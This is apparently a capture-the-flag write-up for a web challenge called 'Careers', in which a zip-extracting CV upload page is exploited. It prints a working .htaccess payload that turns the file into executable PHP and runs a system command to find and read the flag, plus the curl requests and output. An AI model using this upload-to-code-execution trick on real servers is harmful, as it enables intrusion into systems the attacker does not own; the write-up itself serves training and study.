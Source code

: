 # Careers
* Category: Web
* 100 Points
* Solved by the JCTF Team

## Description

> We got hacked,
> 
> We're trying to indentify the ROOT cause.
> 
> If you are a l33t h4x0r, please upload your resume.


## Solution

The attached website allows uploading CVs:

```html
<div class="bg-dark text-secondary px-4 py-5 text-center">
    <div class="py-5">
      <h1 class="display-5 fw-bold text-white">Careers, CV Upload Page</h1>
      <div class="col-lg-6 mx-auto">
        <p class="fs-5 mb-4">Upload your CV using txt format only, please archive the files using zip format.</p>
        <form method="post" enctype="multipart/form-data"> 
		<input type="file" name="zip_file" />
		<br /> <br /> 
		<input type="submit" name="btn_zip" class="btn btn-info" value="Upload" />  
      </div>
    </div>
	<p>
			</p>
  </div>
```

All we need to do is zip our CV and upload it:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ echo "This is a test." > test.txt

┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ zip test.zip test.txt
  adding: test.txt (stored 0%)
```

Once we do, we get the following message:

```html
<p class="fs-5 mb-4">Thank you!, our recruiter will contact you ASAP, your candinate ID is: 37a0e2f4f4999c7aaadfe6b3009354f7,
			<br><a href="./upload/37a0e2f4f4999c7aaadfe6b3009354f7" class="link-success">37a0e2f4f4999c7aaadfe6b3009354f7 Files</a></p>
```

We can visit that link and see that our CV was extracted there:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ curl -k 'https://careers.chal.intentsummit.org/upload/37a0e2f4f4999c7aaadfe6b3009354f7/test.txt' -H 'Cookie: intent-ctf-session=6788422a5e4230e038bd5673cc4708aa'
This is a test.
```

This is a PHP site, so we should start by trying to upload a PHP file. 

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ cat phpinfo.php
<?php
phpinfo();
?>

┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ zip php.zip phpinfo.php test.txt
updating: phpinfo.php (stored 0%)
  adding: test.txt (stored 0%)
```

However, those don't seem to get extracted to the upload directory.

The next best thing would be an `.htaccess` file that executes PHP:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ cat .htaccess
<Files .htaccess>
    ForceType application/x-httpd-php
    SetHandler application/x-httpd-php
    Require all granted
    Order allow,deny
    Allow from all
    php_flag engine on
</Files>
php_value auto_prepend_file .htaccess
#<?php echo system("cat $(find / -name flag)")."<br />"; ?>

┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ zip htaccess.zip .htaccess test.txt
  adding: .htaccess (deflated 32%)
  adding: test.txt (stored 0%)
```

Once uploaded, we get:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Careers]
└─$ curl -k 'https://careers.chal.intentsummit.org/upload/7781187f9f7f6de411a91c2396f15859/.htaccess' -H 'Cookie: intent-ctf-session=6788422a5e4230e038bd5673cc4708aa'
<Files .htaccess>
    ForceType application/x-httpd-php
    SetHandler application/x-httpd-php
    Require all granted
    Order allow,deny
    Allow from all
    php_flag engine on
</Files>
php_value auto_prepend_file .htaccess
#a
INTENT{zipfiles_are_awsome_for_pt}INTENT{zipfiles_are_awsome_for_pt}<br />
<Files .htaccess>
    ForceType application/x-httpd-php
    SetHandler application/x-httpd-php
    Require all granted
    Order allow,deny
    Allow from all
    php_flag engine on
</Files>
php_value auto_prepend_file .htaccess
#a
INTENT{zipfiles_are_awsome_for_pt}INTENT{zipfiles_are_awsome_for_pt}<br />
```
